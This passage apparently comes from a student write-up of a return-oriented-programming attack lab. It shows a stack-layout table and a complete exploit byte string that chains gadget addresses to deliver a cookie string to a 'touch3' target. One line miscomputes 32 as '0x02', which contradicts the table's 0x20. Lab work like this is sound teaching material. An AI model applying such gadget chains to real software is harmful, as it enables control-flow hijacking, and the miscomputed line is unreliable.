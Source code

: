 | caller_8    | 8      | gadget_4    | dd 19 40 00 00 00 00 00 |            |
| caller_0    | 0      | value(0x20) | 20 00 00 00 00 00 00 00 | rsp        |
| return_addr | -8     | gadget_1    | cc 19 40 00 00 00 00 00 | rip        |
| rbuff_end   | -16    | filler      | ff ff ff ff ff ff ff ff |            |
| rbuff_24    | -24    | filler      | ff ff ff ff ff ff ff ff |            |
| rbuff_16    | -32    | filler      | ff ff ff ff ff ff ff ff |            |
| rbuff_8     | -40    | filler      | ff ff ff ff ff ff ff ff |            |
| rbuff_start | -48    | filler      | ff ff ff ff ff ff ff ff |            |

- cookie_ptr = stack_ptr + value
- value = cookie_ptr - stack_ptr = 72 - 40 = 32 = 0x02

## The Exploit String

```asm
ff ff ff ff ff ff ff ff   /* rbuff_start: filler */
ff ff ff ff ff ff ff ff   /* rbuff_8:     filler */
ff ff ff ff ff ff ff ff   /* rbuff_16:    filler */
ff ff ff ff ff ff ff ff   /* rbuff_24:    filler */
ff ff ff ff ff ff ff ff   /* rbuff_end:   filler */
cc 19 40 00 00 00 00 00   /* return_addr: gadget_1 */
20 00 00 00 00 00 00 00   /* caller_0:    value(0x20) */
dd 19 40 00 00 00 00 00   /* caller_8:    gadget_4 */
34 1a 40 00 00 00 00 00   /* caller_16:   gadget_5 */
13 1a 40 00 00 00 00 00   /* caller_24:   gadget_6 */
06 1a 40 00 00 00 00 00   /* caller_32:   gadget_3 */
c5 19 40 00 00 00 00 00   /* caller_40:   gadget_2 */
d6 19 40 00 00 00 00 00   /* caller_48:   gadget_7 */
c5 19 40 00 00 00 00 00   /* caller_56:   gadget_2 */
fa 18 40 00 00 00 00 00   /* caller_64:   touch3_addr */
35 39 62 39 39 37 66 61   /* caller_72:   cookie_str */
00 00 00 00 00 00 00 00   /* caller_80:   empty */
```

